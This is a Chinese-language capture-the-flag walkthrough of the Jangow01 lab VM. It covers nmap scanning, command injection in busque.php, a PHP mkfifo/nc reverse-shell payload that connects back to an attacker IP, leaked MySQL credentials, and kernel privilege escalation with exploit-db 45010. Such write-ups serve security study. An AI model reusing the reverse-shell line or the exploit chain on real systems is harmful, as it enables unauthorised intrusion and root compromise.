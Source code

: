 # 主机发现

![image-20230309154216557](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230309154216557.png)

# 端口扫描

TCP:

`sudo nmap -sT -sV -O -p- -sC --min-rate=10000 -T5 172.16.170.48`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18
|_http-title: Index of /
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-06-10 18:05  site/
|_
MAC Address: 00:0C:29:3A:A4:62 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.16 - 4.6, Linux 3.2 - 4.9, Linux 4.4
Network Distance: 1 hop
Service Info: Host: 127.0.0.1; OS: Unix
```

UDP:

`sudo nmap -sU -p- 172.16.170.48`

```
没有结果
```

漏洞扫描

```
sudo nmap -sT -sV -O -p21,80 --script=vuln --min-rate=10000 -T5 172.16.170.48
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-09 02:52 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 172.16.170.48
Host is up (0.0018s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18
|_http-dombased-xss: Couldn't find any DOM based XSS.
| vulners: 
|   cpe:/a:apache:http_server:2.4.18: 
|       CVE-2022-31813  7.5     https://vulners.com/cve/CVE-2022-31813
|       CNVD-2021-102386        7.5     https://vulners.com/cnvd/CNVD-2021-102386
|       EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    7.2     https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB        *EXPLOIT*
|       EDB-ID:46676    7.2     https://vulners.com/exploitdb/EDB-ID:46676      *EXPLOIT*
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       1337DAY-ID-32502        7.2     https://vulners.com/zdt/1337DAY-ID-32502        *EXPLOIT*
|       FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8    6.8     https://vulners.com/githubexploit/FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8      *EXPLOIT*
|       CVE-2021-40438  6.8     https://vulners.com/cve/CVE-2021-40438
|       CVE-2020-35452  6.8     https://vulners.com/cve/CVE-2020-35452
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CVE-2016-5387   6.8     https://vulners.com/cve/CVE-2016-5387
|       CNVD-2022-03224 6.8     https://vulners.com/cnvd/CNVD-2022-03224
|       8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2    6.8     https://vulners.com/githubexploit/8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2      *EXPLOIT*
|       4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332    6.8     https://vulners.com/githubexploit/4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332      *EXPLOIT*
|       4373C92A-2755-5538-9C91-0469C995AA9B    6.8     https://vulners.com/githubexploit/4373C92A-2755-5538-9C91-0469C995AA9B      *EXPLOIT*
|       0095E929-7573-5E4A-A7FA-F6598A35E8DE    6.8     https://vulners.com/githubexploit/0095E929-7573-5E4A-A7FA-F6598A35E8DE      *EXPLOIT*
|       CVE-2022-28615  6.4     https://vulners.com/cve/CVE-2022-28615
|       CVE-2021-44224  6.4     https://vulners.com/cve/CVE-2021-44224
|       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082
|       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       CVE-2022-22721  5.8     https://vulners.com/cve/CVE-2022-22721
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       1337DAY-ID-33577        5.8     https://vulners.com/zdt/1337DAY-ID-33577        *EXPLOIT*
|       SSV:96537       5.0     https://vulners.com/seebug/SSV:96537    *EXPLOIT*
|       EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D    5.0     https://vulners.com/exploitpack/EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D        *EXPLOIT*
|       EXPLOITPACK:2666FB0676B4B582D689921651A30355    5.0     https://vulners.com/exploitpack/EXPLOITPACK:2666FB0676B4B582D689921651A30355        *EXPLOIT*
|       EDB-ID:42745    5.0     https://vulners.com/exploitdb/EDB-ID:42745      *EXPLOIT*
|       EDB-ID:40909    5.0     https://vulners.com/exploitdb/EDB-ID:40909      *EXPLOIT*
|       CVE-2016-1546   4.3     https://vulners.com/cve/CVE-2016-1546
|       4013EC74-B3C1-5D95-938A-54197A58586D    4.3     https://vulners.com/githubexploit/4013EC74-B3C1-5D95-938A-54197A58586D      *EXPLOIT*
|       1337DAY-ID-33575        4.3     https://vulners.com/zdt/1337DAY-ID-33575        *EXPLOIT*
|       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
|       CVE-2016-8612   3.3     https://vulners.com/cve/CVE-2016-8612
|       PACKETSTORM:152441      0.0     https://vulners.com/packetstorm/PACKETSTORM:152441      *EXPLOIT*
|       CVE-2022-37436  0.0     https://vulners.com/cve/CVE-2022-37436
|       CVE-2022-36760  0.0     https://vulners.com/cve/CVE-2022-36760
|_      CVE-2006-20001  0.0     https://vulners.com/cve/CVE-2006-20001
| http-fileupload-exploiter: 
|   
|_    Couldn't find a file-type field.
| http-sql-injection: 
|   Possible sqli for queries:
|_    http://172.16.170.48:80/?C=N%3BO%3DA%27%20OR%20sqlspider
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-enum: 
|   /: Root directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /site/: Potentially interesting folder
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
MAC Address: 00:0C:29:3A:A4:62 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.16 - 4.6, Linux 3.2 - 4.9, Linux 4.4
Network Distance: 1 hop
Service Info: Host: 127.0.0.1; OS: Unix

```



# web探索+漏洞利用

值得关注的地方

![image-20230309155000074](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230309155000074.png)

目录扫描发现，在路径`http://172.16.170.48/site/busque.php?buscar=`  发现可以执行命令，发现存在用户/home/jangow01/user.txt ，打开文件是md5加密的文件，写入一反弹shell

![image-20230309161830067](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230309161830067.png)

连接成功

发现MySQL账户

```
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);

```

![image-20230309162213062](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230309162213062.png)

尝试登录ftp，是网站后台目录，

![image-20230309164433433](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230309164433433.png)

这里也有密码，尝试登录ftp，失败

> [【重定向】linux的重定向总结 - 代码小绵羊 - 博客园 (cnblogs.com)](https://www.cnblogs.com/coreLeo/p/14889161.html)

```
写入文件件，反弹shell
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.36.101.179 443 >/tmp/f");?>
```

> rm /tmp/f 删除
> mkfifo /tmp/f; 在tmp目录下写fifo文件f
> /bin/sh -i 2>&1 将/bin/sh 的标准错误重定向到标准输出
> nc x.x.x.x 2333 >/tmp/f将nc监听到的输入 输入到fifo

反弹shell成功

# 提权

[jondonas/linux-exploit-suggester-2: Next-Generation Linux Kernel Exploit Suggester (github.com)](https://github.com/jondonas/linux-exploit-suggester-2)

将文件上传给靶机（蚁剑）,得到

![image-20230309175642272](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230309175642272.png)

使用45010，下载

`searchsploit linux Kernel 4.4 -m 45010`

上传至靶机编译，添加执行权限，成功提权

<img src="C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230309175950252.png" alt="image-20230309175950252" style="zoom:150%;" />

